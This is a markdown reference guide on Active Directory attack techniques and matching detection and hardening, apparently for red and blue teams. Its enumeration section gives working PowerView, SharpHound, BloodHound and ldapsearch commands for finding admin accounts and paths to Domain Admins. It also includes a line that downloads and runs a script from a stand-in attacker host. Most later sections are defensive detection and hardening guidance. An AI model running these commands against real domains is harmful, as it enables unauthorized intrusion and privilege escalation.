






# Active Directory - Attacks & Defense Deep Dive

> [!CAUTION]
> **Authorized use only.** The techniques below are for authorized security
> testing, education, and defensive research. Activity without authorization may violate criminal or civil law, contracts, or policy depending on jurisdiction, scope, and conduct. Define written scope and consult qualified counsel where needed. See
> [LEGAL.md](../LEGAL.md).

> **Scope:** Active Directory attack techniques, post-exploitation paths, Kerberos abuse, privilege escalation, and corresponding defensive controls and detection logic. Structured for both red and blue team reference.

✅ **Quick-reference checklists:** [Active Directory](../Checklists/ActiveDirectory.md) · [Domain Escalation](../Checklists/Domain-Escalation.md) · [Domain Persistence](../Checklists/Domain-Persistence.md) · [Lateral Movement](../Checklists/Lateral-Movement.md)

---

## Table of Contents

1. [AD Architecture Overview](#ad-architecture-overview)
2. [Enumeration & Reconnaissance](#enumeration--reconnaissance)
3. [Credential Attacks](#credential-attacks)
4. [Kerberos Attacks](#kerberos-attacks)
5. [Privilege Escalation Paths](#privilege-escalation-paths)
6. [Lateral Movement](#lateral-movement)
7. [Domain Persistence](#domain-persistence)
8. [Detection & Hunting](#detection--hunting)
9. [Defensive Hardening](#defensive-hardening)
10. [AD Security Assessment Checklist](#ad-security-assessment-checklist)

---

## 🎯 Purpose
The full-depth AD attack/defense reference - where [ultimate_cybersecurity_master_guide.md](../ultimate_cybersecurity_master_guide.md)'s Active Directory Attacks section covers the topic briefly, this file goes deep on enumeration, credential attacks, Kerberos abuse, privilege-escalation paths, lateral movement, and domain persistence with matching detection/hardening guidance.

## ⚙️ Function
10 sections progressing from AD architecture through enumeration, credential attacks, Kerberos abuse, privilege escalation, lateral movement, domain persistence, detection/hunting, defensive hardening, and a closing security assessment checklist. Pairs with 4 dedicated quick-reference checklists ([Active Directory](../Checklists/ActiveDirectory.md), [Domain Escalation](../Checklists/Domain-Escalation.md), [Domain Persistence](../Checklists/Domain-Persistence.md), [Lateral Movement](../Checklists/Lateral-Movement.md)); differs from [c2-frameworks.md](c2-frameworks.md) and [lolbins-lolbas.md](lolbins-lolbas.md), which cover post-exploitation tooling/technique generally rather than AD-specific attack paths.

## 🏆 Goal
A red teamer can execute a full AD compromise chain (enumeration through domain persistence) and a blue teamer can detect and harden against each stage using the same file.

## 📋 When to Use
During AD-focused engagements or assessments, or when building detection/hardening controls against Kerberos abuse, credential attacks, or privilege escalation in a Windows domain.

## AD Architecture Overview

```
Forest
└── Domain: corp.local
    ├── Domain Controllers
    │   ├── PDC Emulator (FSMO)
    │   └── Additional DCs
    ├── Organizational Units (OUs)
    │   ├── Workstations
    │   ├── Servers
    │   └── Users
    ├── Group Policy Objects (GPOs)
    ├── Sites & Subnets
    └── Trusts
        ├── Child domains
        └── External/forest trusts
```

### Key AD Components

| Component | Role |
|---|---|
| Domain Controller | Authenticates users, stores directory, replicates AD |
| SYSVOL | Shared folder on DCs storing GPOs, logon scripts |
| NTDS.dit | AD database - contains all hashes and objects |
| Global Catalog | Cross-domain search index |
| FSMO Roles | 5 single-master operations roles (PDC Emulator, RID Master, etc.) |
| Kerberos KDC | Issues TGTs (krbtgt) and service tickets |
| LDAP | Directory access protocol - used for all AD queries |
| DNS | AD-integrated DNS is critical for domain function |

### Trust Types

| Trust | Direction | Notes |
|---|---|---|
| Parent-Child | Bidirectional, transitive | Automatic within forest |
| Forest | Configurable | Between separate forests |
| External | Non-transitive | Legacy, specific domain-to-domain |
| Shortcut | Manual | Optimize auth paths |

---

## Enumeration & Reconnaissance

### PowerView

```powershell
# Import PowerView
Import-Module .\PowerView.ps1
# or IEX (New-Object Net.WebClient).DownloadString('http://attacker/PowerView.ps1')

# Domain information
Get-Domain
Get-DomainController
Get-DomainTrust
Get-ForestTrust

# User enumeration
Get-DomainUser
Get-DomainUser -Properties name,memberof,description,lastlogon,pwdlastset
Get-DomainUser -Identity jsmith
Get-DomainUser -AdminCount 1   # Find admin accounts

# Group enumeration
Get-DomainGroup
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-DomainGroupMember -Identity "Enterprise Admins"

# Computer enumeration
Get-DomainComputer -Properties name,operatingsystem,lastlogon
Get-DomainComputer -OperatingSystem "*Server*"
Get-DomainController -Domain corp.local

# Find where users are logged in
Get-NetLoggedon -ComputerName DC01
Get-NetSession -ComputerName DC01
Find-DomainUserLocation -UserName "DA_User"   # Find where DA is logged in

# ACL/permission enumeration
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs
Get-ObjectAcl -DistinguishedName "DC=corp,DC=local" -ResolveGUIDs | 
  Where-Object {$_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl"}

# Find misconfigured ACLs (path to DA via ACL abuse)
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object {$_.IdentityReferenceName -notmatch "Domain Admins|Enterprise Admins|SYSTEM"}

# GPO enumeration
Get-DomainGPO
Get-DomainGPOUserLocalGroupMapping   # GPOs granting local admin

# Share enumeration
Find-DomainShare
Find-InterestingDomainShareFile -Include *.txt,*.ps1,*.xml,*.config
```

### BloodHound

BloodHound maps attack paths through AD by analyzing ACLs, group memberships, and session data.

```bash
# Collect data with SharpHound
.\SharpHound.exe -c All --zipfilename bloodhound_data.zip
.\SharpHound.exe -c DCOnly    # DC-only, less noise
.\SharpHound.exe -c All --stealth  # Slower but quieter

# Run BloodHound
neo4j console &
bloodhound &
# Upload zip file via GUI

# Useful Cypher queries
# Find shortest path to Domain Admins
MATCH p=shortestPath((u:User {owned:true})-[*1..]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})) RETURN p

# Find all DA sessions on non-DC hosts
MATCH (u:User)-[:MemberOf]->(g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"}),
      (c:Computer)-[:HasSession]->(u)
WHERE NOT c.name ENDS WITH ".DC.CORP.LOCAL"
RETURN u.name, c.name

# Find Kerberoastable accounts with DA path
MATCH (u:User {hasspn:true}) WHERE u.admincount = true RETURN u.name

# Find computers where DA is admin
MATCH (g:Group {name:"DOMAIN ADMINS@CORP.LOCAL"})-[:AdminTo]->(c:Computer) RETURN c.name
```

### LDAP Enumeration

```bash
# ldapsearch (Linux)
ldapsearch -H ldap://DC01.corp.local -x -b "DC=corp,DC=local" \
  -D "corp\user" -w "Password1" "(objectClass=user)" cn sAMAccountName

# Enumerate users without authentication (null bind - often disabled)
ldapsearch -H ldap://DC01.corp.local -x -b "DC=corp,DC=local" "(objectClass=user)"

# Find accounts with password not required
ldapsearch -H ldap://DC01 -x -b "DC=corp,DC=local" \
  "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" cn

# Find accounts that don't require Kerberos pre-auth (AS-REP roastable)
ldapsearch -H ldap://DC01 -x -b "DC=corp,DC=local" \
  "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" cn
```

---

## Credential Attacks
 
Credential abuse includes password guessing, stolen credential reuse, authentication relay, and secret extraction. These techniques overlap in telemetry; investigate the account, endpoint, protocol, and sequence rather than labeling a single event as proof.
 

 
### Password Spraying
 
Review authentication failures across accounts and sources, then correlate any successful sign-ins and follow-on access. Consider lockout policy, authentication method, expected service activity, and approved testing windows. A high count alone can be caused by stale applications or misconfigured services; do not treat it as an automatic compromise verdict.
 
### Pass-the-Hash (PtH)
 
This describes authentication using reusable NTLM credential material. Defenders should investigate unusual NTLM network logons, source-to-destination patterns, privileged account use from workstations, and subsequent service or process activity. Event 4624 with NTLM is a lead, not proof of hash reuse.
 
### Pass-the-Ticket (PtT)
 
A reused Kerberos ticket can appear as otherwise valid authentication. Review ticket-related events with endpoint context, account logon patterns, device identity, privilege, and the intended service. Protecting a ticket-granting ticket does not remove every risk: application service tickets and supplied credentials have separate protection considerations.
 
### NTLM Relay
 
Relay risk depends on protocol and service configuration. Review unexpected NTLM authentication, name-resolution activity, destination services, and whether the server requires the relevant signing or channel-binding protections.
 
- Enforce SMB signing where supported and verify effective policy.
- For LDAP, assess signing and channel binding together with the actual bind and transport type. Microsoft notes that LDAP signing alone does not prevent NTLM relay in every scenario.
- Reduce or disable NTLM only through a compatibility-tested, organization-managed migration plan.
 
See Microsoft's [SMB signing overview](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing) and [LDAP channel-binding guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/ldap-channel-binding).
 
### Credential Dumping
 
Treat unusual access to LSASS, credential stores, the SAM, or domain-controller databases as a high-priority investigation signal. Correlate process identity, signer, host role, user activity, security-product telemetry, and approved administration. Credential Guard and LSA protection reduce some credential-theft paths but have platform and application dependencies; Credential Guard does not protect the AD database on domain controllers or every supplied credential. Review Microsoft's [Credential Guard overview](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/) and [LSA protection guidance](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection).
 
If exposure is suspected, preserve relevant logs and follow the organization's incident-response plan for host isolation, credential/session recovery, and domain-level remediation. Avoid ad hoc password changes on domain controllers; forest-level recovery actions require the current Microsoft procedure and healthy replication.
 

## Kerberos Attacks
 
Kerberos attack paths often exploit weak service-account secrets, disabled pre-authentication, compromised ticket-signing keys, or excessive delegation. The labels below describe risk patterns for defenders; they are not instructions to obtain or forge tickets.
 

 
```mermaid
sequenceDiagram
    participant U as User or workload
    participant K as Domain controller KDC
    participant S as Approved service
    U->>K: Request TGT (event 4768)
    K-->>U: TGT after configured authentication
    U->>K: Request service ticket for SPN (event 4769)
    K-->>U: Service ticket
    U->>S: Authenticate to service
    Note over K,S: Correlate DC and endpoint logs; visibility depends on audit policy and protocol context
```
 
### Kerberoasting
 
A service ticket for an SPN is encrypted using key material derived from the service account secret. Weak or long-lived secrets may be vulnerable to offline guessing if a ticket is obtained. The ticket is not simply “encrypted with the account's NTLM hash” in every encryption mode.
 
Review event 4769 for unusual request volume, accounts, source hosts, target SPNs, and encryption types. Validate against service baselines and change history. Prefer managed service accounts where supported, use long randomly generated secrets, limit account privileges, remove stale SPNs, and migrate away from obsolete encryption only after compatibility review.
 
### AS-REP Roasting
 
Accounts configured not to require Kerberos pre-authentication can receive a TGT response without first proving knowledge of the account secret. The response material can be subjected to offline guessing. Review event 4768 for pre-authentication type 0 and verify the account's effective configuration. Require pre-authentication unless a documented compatibility exception is approved; protect exceptions with strong managed secrets, limited privileges, and monitoring.
 
### Golden Ticket
 
A forged ticket-granting ticket requires compromise of the domain's krbtgt key. Changing an individual user's password does not rotate that domain key. Do not use a fixed ticket lifetime or a single event field as a universal detection claim: ticket policy, implementation, and telemetry affect what is visible.
 
If krbtgt compromise is suspected, treat it as a domain-level incident. Preserve DC and endpoint evidence and follow Microsoft's current [krbtgt forest-recovery procedure](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password). The supported reset sequence depends on healthy replication and the configured ticket lifetimes; the documented 10-hour wait applies to default policy values.
 
### Silver Ticket
 
A service-ticket forgery risk is tied to compromise of the relevant service account key and the service's ticket validation behavior. Review service-account key exposure, SPN ownership, the destination service's logs, and related endpoint sign-ins. Avoid calling this technique inherently stealthy or assuming every service validates or logs tickets identically.
 
### Diamond Ticket
 
“Diamond ticket” is a research and tool-community label for a ticket-modification approach involving a legitimate ticket. Treat the label as a hypothesis, not a reliable detection signature. Investigate unusual ticket attributes and subsequent access in the context of the account, device, service, and domain-controller telemetry.
 
### Constrained Delegation Abuse
 
Delegation allows a service to act on behalf of a user under configured conditions. Unconstrained delegation can expose delegated credentials to a host when clients authenticate to it; constrained and resource-based constrained delegation limit the target scope but can still be misconfigured or changed by principals with excessive permissions.
 
Inventory delegation settings and their owners, review changes to delegation attributes and ACLs, remove unnecessary trust, and prefer narrowly scoped configurations. Test service dependencies before changes and monitor privileged service identities and destination access.
 

## Privilege Escalation Paths
 
Excessive directory permissions can let a principal change objects, policies, group membership, or replication settings. Treat each path as a permission-review and change-monitoring problem; a graph edge identifies a possible path, not proof that it was used.
 

 
### ACL Abuse
 
Review effective permissions and ownership on privileged users and groups, organizational units, domain objects, service accounts, and policy objects. Pay special attention to broad rights such as full control, permission changes, ownership changes, password-reset rights, and group-membership changes. Confirm the trustee, inheritance, scope, and business owner before changing an ACL.
 
### GPO Abuse
 
Treat Group Policy Objects as privileged software-deployment mechanisms. Review who can edit each GPO, link it to sites/domains/OUs, change delegation, and modify its SYSVOL content. Compare sensitive policy changes with an approved change record and verify the resulting scope on affected systems. Protect administrative GPOs with limited ownership and staged change review.
 
### DCSync
 
Directory replication rights allow authorized principals and domain controllers to replicate directory data. Unexpected replication rights on domain naming contexts, or replication-like activity from an unapproved identity or host, needs urgent review. Event 4662 can provide evidence when appropriate auditing is enabled, but a rule must account for legitimate domain controllers and approved identity or backup products.
 
### Defensive review checklist
 
- Baseline privileged object owners, ACLs, GPO permissions, and replication rights.
- Verify that only approved principals and domain controllers hold replication permissions.
- Review changes to privileged groups, delegation settings, sensitive ACLs, GPOs, and AdminSDHolder.
- Correlate event 4662 and directory-change events with the actor, source device, object, property, and change window.
- Investigate unauthorized changes through the incident process; preserve relevant DC, endpoint, and Group Policy evidence before remediation.
- Retest access after approved changes and keep a rollback path.
 
Microsoft notes that SDProp runs every 60 minutes by default on the domain controller holding the PDC Emulator role and reapplies the AdminSDHolder descriptor to protected accounts and groups. An unexpected permission may therefore appear or be overwritten during this cycle; inspect both the template and affected objects. See Microsoft's [protected accounts and AdminSDHolder guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory), [Active Directory attack-surface reduction guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/reducing-the-active-directory-attack-surface), and [delegation of control documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegation-control-wizard).
 

## Lateral Movement
 
Remote administration is common in managed Windows environments, so no single logon or remote-management event proves lateral movement. Correlate the destination host, account, source device, process, authentication type, service or task changes, and approved maintenance window.
 

 
### WMI Execution
 
For investigations, review the Microsoft-Windows-WMI-Activity/Operational log alongside destination-host Security events, process creation, network telemetry, and the originating account. WMI is also used by inventory, monitoring, and management software; confirm the source host and service owner before escalating.
 
### PsExec / Service-Based
 
Remote service creation can support legitimate software deployment and administration. Correlate destination logon events (4624), service-install events (4697 or System 7045 where available), initiating process and binary provenance, and the change record. Event coverage depends on audit policy and platform configuration.
 
### DCOM Lateral Movement
 
DCOM/RPC is used by legitimate management software and Windows components. Review unusual remote activation in the context of the account, source system, destination role, process lineage, and firewall/network events. The prior claim that DCOM is inherently “stealthier” than service-based administration was unsupported and has been removed.
 
### Overpass-the-Hash
 
This term describes a credential-abuse pattern that can involve NTLM-derived material and Kerberos authentication. Investigate unusual account use across authentication protocols, unexpected source hosts, privileged logons, and subsequent service access. NTLM or Kerberos events on their own do not prove that a hash or ticket was reused.
 
For log meanings and collection details, see Microsoft's [4624 event reference](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4624), [service-install event reference](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4697), and [WMI activity logging guide](https://learn.microsoft.com/en-us/windows/win32/wmisdk/logging-wmi-activity).
 

## Domain Persistence
 
Domain-level persistence can involve privileged ticket-signing keys, protected-object permissions, domain-controller recovery credentials, or changes to directory replication and controller state. Treat these as control-plane incidents: preserve evidence, establish trusted recovery points, and use the organization's forest-recovery runbook.
 

 
### Golden Ticket Persistence
 
Compromise of the krbtgt key can allow forged ticket-granting tickets. Resetting a normal user or administrator password does not rotate the krbtgt key. A forged ticket's lifetime and the evidence available to defenders depend on ticket policy, platform behavior, and what was logged; do not rely on a fixed lifetime or one event ID as a universal detector.
 
If krbtgt compromise is suspected, follow Microsoft's [supported forest-recovery reset procedure](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password). Check replication health first and follow its password-reset sequence. The 10-hour wait is based on Microsoft's default ticket-lifetime settings; if those settings differ, the minimum wait must exceed the configured lifetime.
 
### AdminSDHolder Abuse
 
AdminSDHolder stores the security descriptor template used to protect selected privileged accounts and groups. By default, SDProp runs every 60 minutes on the domain controller holding the PDC Emulator role and reapplies the template where needed. Review both AdminSDHolder and affected protected objects; repeated permission changes can otherwise obscure the source of an unexpected right. See Microsoft's [protected accounts and AdminSDHolder guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory).
 
### DSRM Abuse
 
Directory Services Restore Mode is a separate recovery account and credential for a domain controller. Protect and rotate it as a recovery secret, restrict who can retrieve it, and audit its use. Microsoft Windows LAPS can manage and back up DSRM passwords when configured; review its [architecture and access-control model](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-concepts-overview). Keep recovery credentials available to authorized recovery staff and protected from ordinary administrative access.
 
### Skeleton Key
 
“Skeleton key” describes a class of memory-resident domain-controller compromise claims, not a guaranteed universal password or a standalone detection signature. Investigate unexpected code or module changes on domain controllers, authentication anomalies, privileged sign-ins, and suspicious service or process activity. Confirm findings across multiple DCs and endpoint sources before deciding the scope.
 
### DCShadow
 
“DCShadow” describes unauthorized directory changes made through replication-related behavior. Review unexpected domain-controller registration or replication metadata, directory changes to privileged objects, and replication activity from unapproved identities or systems. A name or alert alone does not establish that a rogue domain controller was successfully used; validate against approved DC inventory and change records.
 

## Detection & Hunting
 
Detection depends on enabled audit policy, object SACLs, event forwarding, and sensor coverage. Treat event IDs as investigation pivots and correlate account, source device, destination, process, object, authentication method, and change context.
 

 
### Critical Windows Event IDs
 
| Event ID | What it records | Investigation use and caveat |
|---|---|---|
| 4624 | A logon session was created on the destination computer | Logon type 3 is a network logon; it does not prove lateral movement or pass-the-hash. |
| 4625 | A logon failed | Correlate accounts, source hosts, protocol, and timing; failures also come from stale applications and configuration errors. |
| 4648 | A process attempted a logon with explicit credentials | Correlate process and resulting session; not a direct PtH label. |
| 4662 | An operation was performed on an AD object, when the applicable SACL is configured | For replication-related review, validate access rights, object, properties, subject, and approved DC/backup sources. |
| 4663 | An attempt was made to access an audited file-system object | Requires an applicable SACL and is not a general directory-service event. |
| 4672 | Special privileges were assigned to a new logon | High-value accounts merit review; this does not by itself mean an administrator account was newly granted rights. |
| 4688 | A process was created | Command-line data requires separate policy/configuration; correlate parent, user, signer, and host role. |
| 4720 | A user account was created | Validate actor, target, source, and approved change record. |
| 4728 / 4732 / 4756 | A member was added to a global / local / universal security group | Prioritize sensitive groups and correlate actor and change window. |
| 4768 | A Kerberos TGT was requested | Pre-authentication type 0 means pre-authentication was not used; verify account configuration and DC audit coverage. |
| 4769 | A Kerberos service ticket was requested | Review unusual SPNs, source, volume, and encryption context; RC4 alone is not proof of abuse. |
| 4771 | Kerberos pre-authentication failed | Correlate failure patterns; this event is not a direct AS-REP-roasting signal. |
| 4776 | NTLM credentials were validated on the authoritative computer | For domain accounts, this is typically a DC; it does not identify the destination or prove pass-the-hash. |
| 5145 | A network share object was checked for requested access | Use with share, account, source, and endpoint context; a check is not proof that data was read. |
| 4697 / 7045 | A service was installed (Security / System log, respectively) | Correlate service name, binary, account, initiating logon, source, and change record. |
 
See Microsoft's [advanced audit policy reference](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/advanced-audit-policy-configuration) and [4624 event details](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4624). The exact fields and event volume vary by OS version and audit configuration.
 
### Kerberoasting Detection
 
RC4 service tickets (4769 with ticket encryption type 0x17) are a review signal, not proof of Kerberoasting; legacy applications may still require RC4. Baseline service accounts and client systems, then correlate ticket volume, SPN targeting, source host, account, and approved encryption support. Microsoft documents changes to 4768/4769 RC4 telemetry across supported Windows Server updates; confirm the event version and fields before building a query. See [Detect and Remediate RC4 Usage in Kerberos](https://learn.microsoft.com/en-us/windows-server/security/kerberos/detect-remediate-rc4-kerberos).
 
### DCSync Detection
 
Event 4662 is generated only when the appropriate directory-object SACL is configured and a matching operation occurs. Review replication-related rights GUIDs on the domain naming context, the subject account, source host, and approved domain-controller or backup activity. Avoid fixed PowerShell property indexes and blanket filters for account names ending in dollar signs; those can silently miss events or exclude legitimate and unauthorized computer identities. Use the documented event schema and parse named XML fields.
 
### Lateral Movement Detection
 
Correlate destination-side logon events with service installation, process creation, WMI activity, network telemetry, and approved management windows. Event 7045 comes from the System log and event 4697 from the Security log; fields and availability differ. Workstation-to-workstation traffic can be a useful local baseline, but some support and peer-management workflows legitimately use it.
 
WMI Operational events can show provider or activity details, but an event ID alone does not distinguish remote administration from malicious use. Correlate the account, client host, namespace/operation where available, destination process, and change record.
 
### BloodHound Detection (SharpHound)
 
Directory graph collection can produce LDAP and endpoint telemetry, but volume varies with collection methods, domain size, audit settings, and normal management activity. Event 1644 requires appropriate LDAP diagnostic configuration and is not universally available. Prefer a baseline of approved directory queries and use multiple signals; do not treat query volume alone as proof of a specific collector.
 
### Sigma Rules
 
The earlier inline Sigma fragments mixed generic field names and filters that could suppress legitimate or unauthorized activity. Before using a rule, map the source event fields for the actual collector and event version, validate field types and filter logic, test against known benign activity, and include an owner-approved exception list. Use SigmaHQ's maintained [rule repository](https://github.com/SigmaHQ/sigma) and [specification](https://sigmahq.io/sigma-specification/) for current syntax; do not copy a fragment as a production rule without validation.
 

## Defensive Hardening
 
Use a staged program: inventory dependencies, establish an approved baseline, pilot controls, monitor compatibility, and expand with a rollback path. The right settings depend on domain functional level, supported Windows versions, business applications, and recovery requirements.
 
### Privileged Access Model
 
This tier model is illustrative. Define trust boundaries for the actual environment, use separate privileged identities, and administer higher-trust systems from dedicated hardened workstations. Segmentation reduces credential reuse across tiers; it does not guarantee that compromise cannot cross a boundary.
 

 
### Credential Hygiene
 
| Control | Guidance and limitation |
| --- | --- |
| Credential Guard and LSA protection | Use on supported, compatible devices and verify actual enablement. Credential Guard protects selected secrets through VBS but does not protect the AD database on domain controllers or every supplied credential. Test applications and delegation dependencies before rollout. |
| Protected Users | Consider only for eligible privileged accounts after testing authentication and service dependencies. Its restrictions can prevent legacy protocols or delegation patterns from working. |
| Name-resolution protocols | Assess LLMNR, NetBIOS name service, and local network dependencies. Disable or restrict them through managed policy where compatible; disabling one protocol does not remove every name-resolution or relay risk. |
| Privileged sign-ins | Keep daily and administrative accounts separate, limit where privileged accounts can sign in, and monitor use from unapproved hosts. |
 
Microsoft's [Credential Guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/), [LSA protection](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection), and [Protected Users group](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/protected-users-security-group) documentation lists prerequisites and compatibility limits. Credential Guard is enabled by default on eligible domain-joined, non-domain-controller devices on specified newer Windows versions, unless explicitly disabled; verify rather than assume.
 
### Kerberos Hardening
 
- Prefer managed service accounts where supported, long randomly generated secrets, least privilege, and periodic review of SPNs.
- Require Kerberos pre-authentication unless a documented exception is necessary and approved.
- Inventory RC4 use and migrate to supported stronger encryption only after reviewing account keys, clients, and service dependencies. AES does not prevent ticket requests or offline guessing against weak service-account secrets.
- Do not rotate the krbtgt password on an arbitrary schedule or use an archived helper script. For suspected compromise, follow Microsoft's supported forest-recovery procedure after checking replication health and configured ticket lifetimes.
 
See Microsoft's [service-account guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-service-accounts), [Kerberos RC4 remediation](https://learn.microsoft.com/en-us/windows-server/security/kerberos/detect-remediate-rc4-kerberos), and [krbtgt recovery procedure](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password).
 
### ACL Hardening
 
Review effective permissions on the domain root, privileged groups and users, AdminSDHolder, GPOs, service accounts, and replication rights. Check the trustee, scope, inheritance, ownership, and business purpose; keep an approved baseline and investigate unexpected changes. Avoid broad searches or bulk permission changes without a scoped plan and tested recovery path.
 
Active Directory Recycle Bin is a forest-wide feature and cannot be disabled after it is enabled. Confirm functional-level prerequisites, recovery objectives, retention, and approval before enabling it. See Microsoft's [Recycle Bin guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/active-directory-recycle-bin).
 
### LAPS (Local Administrator Password Solution)
 
Use supported native Windows LAPS to rotate local administrator passwords and, where configured, manage DSRM passwords. Plan migration if the environment still uses legacy Microsoft LAPS; the legacy MSI is deprecated on newer Windows versions. Restrict password-read permissions, audit access, and verify password rotation and backup before relying on it for recovery. See Microsoft's [Windows LAPS overview](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview).
 
### Monitoring & Alerting Priorities
 
| Review signal | Correlate with | Limitation |
|---|---|---|
| 4662 events with replication-related rights | Subject, source host, naming context, SACL coverage, approved DC and backup identities | Events require the applicable object SACL; legitimate replication creates activity. |
| Privileged account logons from unexpected devices | Logon type, identity tier, source/destination, authentication method, and maintenance context | A Tier 0 sign-in outside a domain controller can be expected from an approved administrative workstation. |
| Changes to AdminSDHolder, protected groups, and replication ACLs | Actor, object, property, source, approval, and subsequent use | Change evidence needs object auditing and a known baseline. |
| Unusual 4769 service-ticket patterns or RC4 use | SPN, client, account, event version, service baseline, and dependency inventory | RC4 use and high request volume have benign causes. |
| Workstation-to-workstation SMB or remote administration | Account, endpoint role, service/process events, and approved support tools | Some environments legitimately use peer support or management workflows. |
| New privileged-group membership or SPNs | Actor, target object, service owner, and change record | Configuration changes are not inherently malicious. |
 
SMB signing can reduce certain SMB relay risks but does not by itself address all NTLM relay paths. Pair protocol-specific controls with LDAP signing/channel-binding review, NTLM reduction planning, and monitoring; see Microsoft's [SMB signing](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing) and [LDAP channel-binding guidance](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/ldap-channel-binding).
 

## AD Security Assessment Checklist

```
Domain Configuration
☐ Default Domain Policy password settings (length, complexity, lockout)
☐ Accounts with password never expires
☐ Accounts with password not required
☐ Stale/inactive accounts (90+ days since last logon)
☐ AS-REP roastable accounts (no pre-auth required)
☐ Kerberoastable accounts (service accounts with weak passwords)
☐ krbtgt password age (should be rotated periodically)

Privilege Review
☐ Members of Domain Admins, Enterprise Admins, Schema Admins
☐ Members of Backup Operators, Account Operators, Print Operators
☐ Accounts in Protected Users group (should include all DA+)
☐ Service accounts with unnecessary admin rights
☐ Local admin sprawl (who has local admin on what)

Delegation
☐ Unconstrained delegation hosts (except DCs)
☐ Constrained delegation configurations
☐ Resource-Based Constrained Delegation (RBCD) misconfigurations

ACL/Permissions
☐ Non-admin write access to DA/EA groups
☐ Non-admin write access to GPOs
☐ Non-admin DCSync rights on domain object
☐ AdminSDHolder ACL review
☐ Computer object write permissions (RBCD abuse path)

Infrastructure
